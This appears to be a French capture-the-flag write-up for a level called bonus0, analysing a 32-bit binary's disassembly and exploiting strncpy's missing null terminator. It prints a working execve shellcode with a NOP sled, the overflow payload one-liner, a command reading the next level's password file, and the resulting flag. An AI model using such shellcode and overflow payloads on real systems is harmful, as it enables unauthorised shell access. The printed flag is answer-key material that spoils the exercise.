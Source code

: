 



# bonus0


## description
- Il y a un exécutable **bonus0**.
- L'exécutable attends deux entrée sur **stdin** et les affiche séparer par un espace.

## Résolution

Il y a trois fonctions(**main**, **pp** et **p**). 
Dans le main, il y a un  buffer de 42 bytes et l'appel a la fonction pp.
Dans la fonction pp, on va récupérer 2 fois 20 bytes et les séparer d'un espace.

    Dump of assembler code for function p:
       0x080484b4 <+0>:     push   %ebp
       0x080484b5 <+1>:     mov    %esp,%ebp
       0x080484b7 <+3>:     sub    $0x1018,%esp
       0x080484bd <+9>:     mov    0xc(%ebp),%eax
       0x080484c0 <+12>:    mov    %eax,(%esp)
       0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
       0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
       0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
       0x080484d6 <+34>:    mov    %eax,0x4(%esp)
       0x080484da <+38>:    movl   $0x0,(%esp)
       0x080484e1 <+45>:    call   0x8048380 <read@plt>
       0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
       0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
       0x080484f4 <+64>:    mov    %eax,(%esp)
       0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
       0x080484fc <+72>:    movb   $0x0,(%eax)
       0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
       0x08048505 <+81>:    movl   $0x14,0x8(%esp)
       0x0804850d <+89>:    mov    %eax,0x4(%esp)
       0x08048511 <+93>:    mov    0x8(%ebp),%eax
       0x08048514 <+96>:    mov    %eax,(%esp)
       0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
       0x0804851c <+104>:   leave  
       0x0804851d <+105>:   ret    
    End of assembler dump.
On voit l'utilisation de **read** pour récupérer 4096 caractères sur **stdin**.
Ensuite il y a un **strncpy** pour copier 20 caractères de ce buffer.
On va pouvoir exploiter une limitation de **strncpy**.

    If there is no null byte among the first n bytes of src, the string placed in dest will not be null-terminated.

Grace a cette limitation, on va pouvoir utiliser un shellcode.
notre shellcode : http://shell-storm.org/shellcode/files/shellcode-827.php

On va exporter notre **shellcode** dans l'environnement et faire pointer eip vers son adresse.

    export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
 
avec gdb, on met un **breakpoint** sur le main et retrouver l'adresse de notre variable dans l'environnement.


    (python -c 'print "A"*4095 + "\n" + "\x90"*9 + "\xe7\xf5\xff\xbf" + "B"*10'; cat -) | ./bonus0
    cat /home/user/bonus1/.pass
    cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
